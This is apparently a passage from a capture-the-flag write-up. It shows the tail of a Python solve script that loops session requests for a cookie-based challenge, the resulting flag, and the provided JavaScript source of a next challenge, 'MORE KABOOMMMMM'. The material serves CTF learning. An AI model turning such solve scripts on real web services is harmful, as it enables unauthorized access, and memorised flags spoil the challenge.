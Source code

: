 ```python
        return num  
    except Exception as e:  
        print(r.text)  
        print(session.cookies)  
        raise e  
  
num = 0  
i = 0  
while True:  
    i+= 1  
    num = make_req(num)  
    print("Occ:", i)  
    if (i > 10):  
        break  
  
print(r.text)  
print(session.cookies)
```
`YBN24{D0nT_pUT_$3CR3Ts_IN_53S$1ON_coOk1Es_a2650f92c6893e5bb6437}`
## MORE KABOOMMMMM
#langs/javascript 
Source code is provided for this challenge.
![[Pasted image 20241202202146.png]]
```js
...
router.post('/nuke', (req, res) => {  
    // Call the backend script with the provided data  
    const data = req.body;  
    if (!data.baba || !data.nukes) {  
        res.status(400).json({ error: 'Invalid data' });  
        return  
    }  
    if (data.baba.length !== 2 || data.nukes.some(nuke => nuke.length !== 2)) {  
        res.status(400).json({ error: 'Invalid data' });  
        return  
    }  
  
  
    const {baba,nukes} = data;  
    baba[0] = Number(baba[0])  
    baba[1] = Number(baba[1])  
    if (baba[0] < 0 || baba[0] > 20 || baba[1] < 0 || baba[1] > 20){  
        res.status(400).json({ error: 'Data Out Of Range' });  
        return  
    }  
    // add an extra nuke at baba's exact position  
    nukes.push(baba)  
    var number_of_nukes_hit = 0  
  
    for (let nuke of nukes){  
        let [x,y] = nuke;  
        x = parseInt(x)  
        y = parseInt(y)  
        if (x < 0 || x > 20 || y < 0 || y > 20){  
            res.status(400).json({ error: 'Data Out Of Range' });  
            return  
        }  
        if (Math.abs(baba[0]-x) <= 5 && Math.abs(baba[1]-y) <= 5){  
            number_of_nukes_hit += 1  
        }  
    }  
```